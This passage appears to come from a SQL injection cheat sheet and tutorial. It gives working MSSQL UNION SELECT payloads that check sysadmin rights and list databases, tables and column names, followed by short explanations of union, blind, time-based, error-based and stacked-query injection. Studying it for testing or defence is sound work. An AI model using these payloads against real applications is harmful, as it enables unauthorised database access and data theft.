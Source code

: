 ```
' UNION SELECT 1,IS_SRVROLEMEMBER('sysadmin'),3--
```

## List MSSQL databases

```
' UNION SELECT 1,name,3 FROM master..sysdatabases--
```

## List MSSQL tables

```
' UNION SELECT 1,name,3 FROM sysobjects WHERE xtype='U'--
```

## Extract MSSQL column names

```
' UNION SELECT 1,name,3 FROM syscolumns WHERE id=(SELECT id FROM sysobjects WHERE name='users')--
```

---

## SQL Injection Fundamentals

SQL injection occurs when user input is improperly sanitized before being included in SQL queries. This allows attackers to manipulate database queries to extract data, bypass authentication, or execute commands on the underlying system.

## Injection Types

### Union-Based Injection
Most common and straightforward type. Allows extracting data by appending UNION SELECT statements to original query. Requires knowing number of columns and compatible data types. Results are displayed directly in application response.

### Boolean-Based Blind Injection
Used when application doesn't display query results but responds differently to true vs false conditions. Extract data one bit at a time by asking true/false questions. Slower but works when direct output is not available.

### Time-Based Blind Injection
Used when application shows no visible difference in response. Inject time delays (SLEEP, WAITFOR) to infer true/false conditions. Slowest method but works in most restrictive scenarios.

### Error-Based Injection
Exploits verbose error messages to extract data. Database errors reveal information about query structure and data. Faster than blind techniques but requires error messages to be displayed.

### Stacked Queries
Allows executing multiple SQL statements separated by semicolons. Enables running additional commands beyond SELECT. Particularly dangerous as it can modify database or execute system commands.
